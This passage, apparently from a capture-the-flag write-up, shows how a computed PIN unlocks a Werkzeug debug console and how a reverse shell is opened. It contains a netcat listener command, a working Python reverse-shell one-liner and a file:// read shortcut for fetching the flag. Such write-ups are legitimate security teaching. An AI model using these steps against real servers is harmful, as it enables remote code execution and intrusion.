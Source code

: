 ```python
]
```
Using this information, we get the following PIN: `297-968-211`, let's see if it works!
![console_locked_with_pin](writeup-imgs/console-locked-with-pin.png)
![console_unlocked](writeup-imgs/console-unlocked.png)  
Looks like it worked! We can now execute python code on the server!

Now we can open a reverse shell to properly start looking around in the server.
First we start netcat on our own system with e.g. `nc -lvnp 4444`, then start a reverse shell on the server with the following snippet taken from revshells.com: `import os,pty,socket;s=socket.socket();s.connect(("<ip>",<port>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")`.
If done correctly, we can see a connection coming in to our netcat instance:  
![reverse_shell](writeup-imgs/reverse-connection.png)
When looking around, we can find a file called `note.txt` in our `/home/`directory. This file contains our flag: `SCYON{513152474c58646c636d74365a58566e58334270626c396a636d466a61773d3d}` 

## Sources:
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

## Additional links:
- https://www.revshells.com/

## Shortcuts:
- since we already have arbitrary file reads, by guessing the correct filename, we can already fetch the flag using `file://home/note.txt#https://`
